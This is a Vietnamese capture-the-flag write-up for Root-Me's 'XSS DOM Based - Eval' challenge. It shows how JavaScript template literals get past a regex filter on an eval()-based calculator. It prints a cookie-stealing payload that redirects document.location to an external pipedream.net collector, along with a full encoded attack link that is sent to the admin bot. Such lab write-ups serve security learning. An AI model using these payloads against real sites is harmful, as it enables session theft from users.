 # [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Bài này cần ta thực hiện chèn XSS vào một input tính toán và bị filter bởi regex: `/^\d+\[\\+|\\-|\\\*|\\/\]\d+/`

![](./media/image1.png)

Tuy vậy, sau khi fuzz thì thấy **eval()** cho phép thực thi phép toán **1+1asd:**

![](./media/image2.png)

Như vậy, hướng đi của ta là chèn vào ở đây. Ta có script của server:
```javascript
&lt;script&gt;

var result = eval(1+1asd);

document.getElementById('state').innerText = '1+1asd = ' + result;

&lt;/script&gt;
```

Mọi thứ đều bị filter khi cố chèn script vào đây. Đến đây, sau khi mò về Javascript thì mọi thứ có thể giải quyết với template literals ([Template literals (Template strings) - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)). Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có):

Thử chèn payload: 
```bash
1+1\`${alert\`\`}\`
```

![](./media/image3.png)

Và như vậy, ta có thể đính kèm DOM Based vào đây:

Payload: 
```bash
1+1\`${document.location="https://eol9dtzbk9673pb.m.pipedream.net?c="+document.cookie}\`
```

Sau 10 giây, ta nhận được HTTP request. Giờ thì chuyển qua tab Contact và send cho admin. Ta có payload như sau: [*http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1\`${document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie}\`*](http://challenge01.root-me.org/web-client/ch34/index.php?calculation=1%2B1%60$%7bdocument.location=%22https://eol9dtzbk9673pb.m.pipedream.net?c=%22%2Bdocument.cookie%7d%60)

![](./media/image4.png)

HTTP Request nhận được sau một khoảng thời gian:

![](./media/image5.png)

Done:

![](./media/image6.png)

- Flag: "****************************"
